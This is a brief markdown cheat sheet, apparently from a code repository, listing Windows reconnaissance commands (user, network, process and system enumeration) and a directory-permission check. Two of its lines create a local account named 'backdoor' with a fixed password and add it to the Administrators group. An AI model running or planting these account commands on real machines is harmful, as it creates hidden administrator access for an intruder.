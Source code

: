 
## Windows commands:

`whoami`

`systeminfo | findstr /B "OS"` 

`ipconfig /all`

`netstat -an`

`route print`

`net start`

`tasklist /V`

`net user`

`net user bob`

`net user backdoor backdoor123 /add`

`net localgroup Administrators backdoor /add`

### Get directory permission

`cacls Music`
